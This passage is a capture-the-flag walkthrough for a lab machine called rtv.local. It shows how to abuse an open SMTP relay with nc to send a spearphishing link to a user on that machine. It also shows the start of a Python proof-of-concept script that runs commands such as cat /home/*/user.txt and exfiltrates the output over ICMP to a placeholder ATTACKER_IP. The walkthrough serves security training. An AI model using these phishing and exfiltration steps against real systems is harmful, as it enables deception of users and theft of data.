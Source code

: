 #### Fun Fact: 
The original web application for the challenge was designed to have over hundreds of email addresses. The idea is to compare the "Find Instructors" results to the "Official Instructors" and grabbing only the emails of the "Official Instructors" (so it was not needed to check all of the emails if they are valid). The email addresses were lessened to around 40+ to make the challenge more simple and easier to solve.

##### Send Spearphishing link to the victim containing crafted payload

{: .box-warning}
**Note:** Payload given here would be limited to acquiring the contents of the user.txt file via ICMP data exfiltration.

Previously, it was found that **laughingman@rtv.local** is a valid target and a user that exist in the machine.

The next step is to send a spearphishing email to the account using the open mail relay with a link to the payload.

**Hosting the payload:**
~~~
python3 -m http.server 1337
~~~

**Sending the email via open mail relay vulnerability:**

~~~
nc {MACHINE_IP} 25
~~~

(for MAIL FROM: you can use any default users in machine, or even use laughingman@rtv.local user itself)

~~~
MAIL FROM: root@rtv.local 
RCPT TO: laughingman@rtv.local 
DATA:

Check this out! http://{ATTACKER_IP:PORT}/payload

.
~~~

{: .box-warning}
**Note:** You could use any script or application provided that it will allow you to exfiltrate data using ICMP from the compromised machine.

Here is an example payload that will exfiltrate the output of home directory listing as well as contents of the user.txt file via ICMP.

```
#!/usr/bin/python3
# Just a simple proof of concept for ICMP exfiltration
# by Ameer Pornillos
# https://ethicalhackers.club
# To use: 
# > change domain value to your attacking machine IP address/domain
# > change command value to your desired command 
# > run inside a target machine
# > python3 payload.py

import sys
import subprocess
import re
import binascii

def main():
    domain = "ATTACKER_IP"
    command = 'ls -al ~; ls -al /home/*/user.txt; cat /home/*/user.txt'
```